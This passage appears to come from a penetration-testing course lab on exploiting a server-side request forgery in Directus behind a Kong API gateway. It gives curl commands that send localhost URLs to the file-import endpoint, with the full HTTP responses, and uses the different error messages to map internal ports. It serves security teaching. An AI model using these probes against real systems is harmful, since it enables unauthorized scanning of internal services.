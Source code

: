 Since we cannot access the results of the SSRF, how can we use it to further our attack? As we have already demonstrated, the application returns different messages for valid files and non-existing files. We can use these different messages to infer if a resource exists.

As a reminder, we receive an HTTP _403 Forbidden_ when we request a valid resource and an HTTP _500 Internal Server Error_ with "Request failed with status code 404" when we request a resource that doesn't exist.

Let's check if we can use the SSRF to force Directus to connect to itself. If we send a localhost URL, the application should attempt to connect to its own server. Since such a request originates from the server, we would be able to use such a payload to access ports listening only on localhost.

Let's try it out by sending a _url_ value of "http://localhost:8000/".

```
kali@kali:~$ curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://localhost:8000/"}' http://apigateway:8000/files/import
HTTP/1.1 500 Internal Server Error
Content-Type: application/json; charset=utf-8
Content-Length: 108
Connection: keep-alive
X-Powered-By: Directus
Vary: Origin
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers: Content-Range
ETag: W/"6c-MCdMjU9mfpVtWiLKyczhTW/6Xqo"
Date: Thu, 25 Feb 2021 16:34:32 GMT
X-Kong-Upstream-Latency: 27

{"errors":[{"message":"connect ECONNREFUSED 127.0.0.1:8000","extensions":{"code":"INTERNAL_SERVER_ERROR"}}]}
```

> Listing 25 - Exploiting SSRF with localhost

We received an error that the connection was refused. This new error message is interesting. We know port 8000 is open externally on the API Gateway server. However, if Directus is running on a different server behind the API gateway, "localhost" would refer to the server running Directus, not the server running Kong API Gateway.

A quick Google search reveals that the default port for Directus is 8055. Let's try out that port on localhost.

```
kali@kali:~$ curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://localhost:8055/"}' http://apigateway:8000/files/import
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
Content-Length: 102
Connection: keep-alive
X-Powered-By: Directus
Vary: Origin
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers: Content-Range
ETag: W/"66-OPr7zxcJy7+HqVGdrFe1XpeEIao"
Date: Thu, 25 Feb 2021 16:35:58 GMT
X-Kong-Upstream-Latency: 35
X-Kong-Proxy-Latency: 1
Via: kong/2.2.1

{"errors":[{"message":"You don't have permission to access this.","extensions":{"code":"FORBIDDEN"}}]}
```
